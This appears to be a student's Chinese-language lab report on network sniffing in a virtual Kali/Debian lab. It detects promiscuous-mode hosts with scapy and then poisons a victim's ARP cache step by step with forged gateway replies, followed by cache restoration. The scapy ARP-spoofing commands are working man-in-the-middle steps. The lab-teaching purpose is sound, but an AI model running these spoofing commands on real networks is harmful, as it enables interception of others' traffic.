




# 第四章网络监听-实验
## 实验环境：
- attacker-kali: 08:00:27:50:3e:24/172.16.222.106/eth2  
- victim-debian: 08:00:27:88:02:45/172.16.222.147/enp0s3   
- gateway-debian:  08:00:27:2e:6a:ca/172.16.222.1/enp0s10  

## 实验一：检测局域网中的异常终端
### 实验过程
- 先将attacker-kali和victim-debian及gateway-debian放在同一局域网当中，
增加attacker-kali网卡intnet2，分配到172.16.222.106
- 查看victim-debian的enp0s3网卡状态：
```
ip link show enp0s3
```
- attacker-kali打开scapy，并promiscping victim-debian
```
sudo scapy
pkt = promiscping("172.16.222.147")
```
- 打开victim-debian enp0s3的promiscous mode
```
su
ip link set enp0s3 promisc on 
```
- attacker-kali 再次promiscping victim-debian
- 关闭victim-debian enp0s3的promiscous mode
```
ip link set enp0s3 promisc off
```
### 结果性证明
- 开关victim-debian的混杂模式

- 观察两次命令输出结果的差异：开启混杂模式的有了回应



## 实验二：手工单步“毒化”目标主机的 ARP 缓存
### 实验过程+结果性证明
- 获取当前局域网的gateway-debian, attacker-kali和victim-debian MAC 地址
```
ip a
```
-  attacker-kali scapy构造一个 ARP 请求
```
arpbroadcast = Ether(dst="08:00:27:2e:6a:ca")/ARP(op=1, pdst="172.16.222.1")
```

-  查看构造好的 ARP 请求报文详情
```
arpbroadcast.show()
```

-  发送这个 ARP 广播请求
```
recved = srp(arpbroadcast, timeout=2)
```

- 网关 MAC 地址如下
```
gw_mac = recved[0][0][1].hwsrc
gw_mac
```
- 伪造gateway-debian的 ARP 响应包，准备发送给victim-debian 172.16.222.147，
ARP 响应的目的 MAC 地址设置为attacker-kali的 MAC 地址
```
arpspoofed=ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.147", hwdst="08:00:27:50:3e:24")
```
- 发送上述伪造的 ARP 响应数据包到受害者主机
```
sendp(arpspoofed)
```

- 在victim-debian上查看 ARP 缓存，查看gateway-debian的 MAC 地址是否被替换为attacker-kali的 MAC 地址
```
ip neigh
```


- 恢复victim-debian缓存
```
ping 172.16.222.1
ip neigh
```


- 伪装网关给受害者发送 ARP 响应
```
restorepkt1 = ARP(op=2, psrc="172.16.222.1", hwsrc="08:00:27:2e:6a:ca", pdst="172.16.222.147", hwdst="08:00:27:88:02:45")
sendp(restorepkt1, count=100, inter=0.2)
```
- 伪装受害者给网关发送 ARP 响应
```
restorepkt2 = ARP(op=2, pdst="172.16.222.1", hwdst="08:00:27:2e:6a:ca", psrc="172.16.222.147", hwsrc="08:00:27:88:02:45")
sendp(restorepkt2, count=100, inter=0.2)
```

